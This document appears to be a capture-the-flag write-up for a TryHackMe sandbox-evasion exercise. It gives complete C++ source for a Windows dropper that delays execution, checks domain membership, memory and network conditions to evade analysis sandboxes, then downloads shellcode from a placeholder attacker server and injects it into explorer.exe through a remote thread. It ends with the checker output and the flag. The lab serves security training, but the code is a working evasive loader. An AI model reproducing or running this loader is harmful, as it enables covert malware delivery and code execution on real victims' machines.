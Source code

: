 # The Great Escape

Create your own Sandbox Evasion executable. In order to escape the Sandbox, you must implement the following techniques:

* Check and see if the device is joined to an Active Directory Domain
* Check if the system memory is greater than 1GB of RAM
* Implement an outbound HTTP request to 10.10.10.10
* Implement a 60-second sleep timer before your payload is retrieved from your web server

If your dropper meets these requirements specified above, the flag will be printed out to you.

_The Sandbox Evasion Techniques can fail. The program analyzes the binary to see if the checks are implemented. The outbound device may not have internet access - as long as the checks are implemented, the sandbox check should succeed._

* If you have done it right, the "Sleep Check" will take approximately one minute to reveal the flag.
* If your DNS check has `if(dcNewName.find("\\"))` instead of `if(dcNewName.find("\\\\"))` then you may have 
difficulties with the sleep check.

## Code

```text
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")
#include <lm.h>

#pragma comment(lib, "netapi32.lib")

using namespace std;


BOOL isDomainController() {
    LPCWSTR dcName;
    string dcNameComp;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    cout << dcNewName;
    if(dcNewName.find("\\\\")) {
        return FALSE;
    }
    else {
        return TRUE;
    }
}


BOOL checkIP()
{
    const char* websiteURL = "https://10.10.10.10";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
    }
}


BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    GlobalMemoryStatusEx(&statex);
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 1.00) {
        return TRUE;
    }
    else {
        return FALSE;
    }
}


int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, explorer.exe-pid);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://ATTACK_IP:8080/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}


int main() {
        Sleep(60000);
        if (isDomainController() == TRUE) {
                 if (memoryCheck() == TRUE) {
                          if (checkIP() == TRUE) {
        downloadAndExecute();
                          }
                 }
    }
    return 0;
}
```

Check:

```text
C:\Users\Administrator\Desktop\Materials\> .\SandboxChecker.exe C:\Users\TryHackMe\Materials\SandboxEvasion.exe
[+] Memory Check found!
[+] Network Check found!
[+] GeoFilter Check found!
[+] Sleep Check found!
Congratulations! Here is your flag: THM{6c1f95ec}
```